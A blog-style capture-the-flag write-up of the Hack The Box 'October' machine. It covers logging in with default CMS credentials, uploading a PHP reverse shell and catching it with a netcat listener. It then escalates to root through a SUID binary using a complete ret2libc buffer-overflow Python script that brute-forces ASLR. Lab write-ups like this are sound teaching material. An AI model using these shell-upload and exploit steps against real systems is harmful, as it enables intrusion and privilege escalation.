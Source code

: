 ```yaml
---
title: 'HTB: October'
date: '2025-04-26'
excerpt: '![Pwnage](/images/htb/machines/October/owned.png "Rooted")'
readingTime: 3
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Medium', 'Linux', 'Web', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/october-cover.png'
---
```


# October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap

![Nmap](/images/htb/machines/October/nmap.png "Nmap")

### Dirbuster

![Dirbuster](/images/htb/machines/October/dirbuster.png "Dirbuster")

### WebPortal

![Web Portal](/images/htb/machines/October/webportal.png "Vanilla CMS")

#### Backend

![Web Backend](/images/htb/machines/October/backend.png "October Backend")


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  

![PHP Uploaded](/images/htb/machines/October/uploadphp.png "PHP Shell")

We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.

![User Exposed](/images/htb/machines/October/userExposed.png "Exposed User")

## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.  

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument  

![Segmentation Fault](/images/htb/machines/October/segfault.png "Seg Fault")  

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

![Offset Found](/images/htb/machines/October/offsetFound.png "Offset Found")  

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

![ASLR LDD](/images/htb/machines/October/ldd.png "ASLR is enabled")  

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	![System Offset](/images/htb/machines/October/systemOffset.png "Offset Found")  
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	![Exit Offset](/images/htb/machines/October/exitOffset.png "Offset Found")  
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	![/bin/sh Offset](/images/htb/machines/October/binshOffset.png "Offset Found")  

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = "A"*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print "Attempts: " + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  

![Overflow](/images/htb/machines/October/bufferOverflow.png "Overflow")

And we are root:

![Pwnage](/images/htb/machines/October/owned.png "Rooted")
